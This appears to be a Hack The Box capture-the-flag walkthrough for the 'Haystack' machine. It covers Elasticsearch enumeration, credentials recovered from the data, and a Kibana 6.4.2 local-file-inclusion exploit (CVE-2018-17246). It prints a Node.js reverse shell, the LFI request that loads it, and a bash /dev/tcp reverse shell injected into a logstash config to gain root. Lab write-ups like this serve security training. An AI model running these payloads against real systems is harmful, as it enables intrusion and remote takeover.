

# [Haystack](https://app.hackthebox.com/machines/Haystack)

```bash
nmap -p- --min-rate 5000 10.10.10.115 -Pn  
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80,9200 10.10.10.115 -Pn 
```


While I got request to port 9200, I see JSON data.




Let's do `directory enumeration` via `gobuster` command.
```bash
gobuster dir -u http://10.10.10.115:9200/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```


I found `/quotes`,`/bank`,`/_stats`,`/template`,`_search`,

Let's do `curl` to these endpoints.

I find user's information from `/_search` endpoint.


Let's search data for `clave` user on `/quotes/_search` endpoint.
```bash
curl -s -X GET "http://10.10.10.115:9200/quotes/_search?size=1000" -H 'Content-Type: application/json' -d'
{
    "query": {
        "match_all": {}
    }
}
' | jq -c '.hits.hits[]' | grep clave
```


Let's translate these on Google Translate.


Let's decode these data via [Cyberchef](https://cyberchef.io/)


Let's connect into machine via these grabbed credentials.

security: spanish.is.key


user.txt


While running `netstat -tpln`.


I see that port `5601` is kibana by `curl` command.
```bash
curl http://localhost:5601
```


Let's do `Local Port Forwarding` to see port (5601) for our target.

```bash
ssh -L 5602:localhost:5601 security@10.10.10.115
```


Now, on my kali machine, I can see this `kibana` on port `5602`.
```bash
curl http://localhost:5602
```


I looked at version of `kibana` on `Managaement` section.


Version is `6.4.2`.

I searched publicly known exploit for this version of `Kibana`.

That's [CVE-2018-17426](https://github.com/mpgn/CVE-2018-17246)

For reverse shell, I create `.js` file and write reverse shell commands into here.

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.14.2", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```


2.It's time to browse this malicious reverse shell `dr4ks.js`
```bash
curl "http://127.0.0.1:5602/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/dr4ks.js"
```


Hola, I got reverse shell from port `1337`.


Let's make interactive shell.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


As there's `kibana` is located, we can assume that there's also `logstash` is located, let's search this on processes as below.
```bash
ps awuxx | grep logstash
```


This is running by `root` user.

I read execution of this from `/etc/logstash` via `.conf` files

For abusing, let's add our reverse shell payload into `log` section.

```bash
echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.2/1338 0>&1'" > /opt/kibana/logstash_dr4ks
```

I got reverse shell as root user from `1338`.


root.txt

